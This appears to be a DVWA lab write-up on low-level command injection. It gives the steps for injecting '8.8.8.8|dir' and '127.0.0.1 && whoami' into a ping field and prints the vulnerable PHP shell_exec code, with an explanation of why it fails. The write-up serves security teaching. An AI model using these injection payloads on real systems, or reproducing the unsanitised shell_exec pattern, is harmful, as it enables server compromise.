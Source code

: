 # Command Injection - Low 

## Attack Steps

1. **Open the DVWA Command Injection page**  
   Navigate to:
http://localhost/dvwa/vulnerabilities/exec
 
2. **Enter the payload** in the input field:  
```bash
8.8.8.8|dir
```


3. Click the **Submit** button.

4. Observe the output You should see the ping results followed by the directory listing from the DVWA server, for example:

    ```bash 
    Volume in drive C has no label.
    Volume Serial Number is XXXX-XXXX

    Directory of C:\xampp\htdocs\DVWA\vulnerabilities\exec

    01/01/2025  10:00 AM    <DIR>          .
    01/01/2025  10:00 AM    <DIR>          ..
               0 File(s)              0 bytes
    ```

## Vulnerable Code Analysis

### File:
`/var/www/dvwa/vulnerabilities/exec/source/low`

#### Key Vulnerability Points:

```php
 <?php

if( isset( $_POST[ 'submit' ] ) ) {

    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if (stristr(php_uname('s'), 'Windows NT')) { 
    
        $cmd = shell_exec( 'ping  ' . $target );
        echo '<pre>'.$cmd.'</pre>';
        
    } else { 
    
        $cmd = shell_exec( 'ping  -c 3 ' . $target );
        echo '<pre>'.$cmd.'</pre>';
        
    }
    
}
?> 
```

### Explanation
- The code takes direct user input `$target = $_REQUEST['ip'];` and passes it straight into a shell command without any validation or sanitisation.  
- The value of `$target` is concatenated into the `ping` command string inside `shell_exec()`, e.g.:  
    ```php
    shell_exec('ping -c 3 ' . $target);
    ```  
- This can be exploited using a payload such as:  
    ```
    127.0.0.1 && whoami
    ```  
    - The command executed by the server becomes:  
      ```
      ping -c 3 127.0.0.1 && whoami
      ```  
    - After the ping runs, `whoami` will also execute, revealing the username of the process running PHP.  
- Causes:  
    - No input validation or sanitisation on `$target`, so arbitrary commands can be injected.  
    - Direct insertion of user input into a shell command allows attackers to append extra commands using operators like `&&`, `;`, or `|`.  
    - Not using safe functions like `escapeshellarg()` or input whitelisting means special characters are interpreted by the shell.  
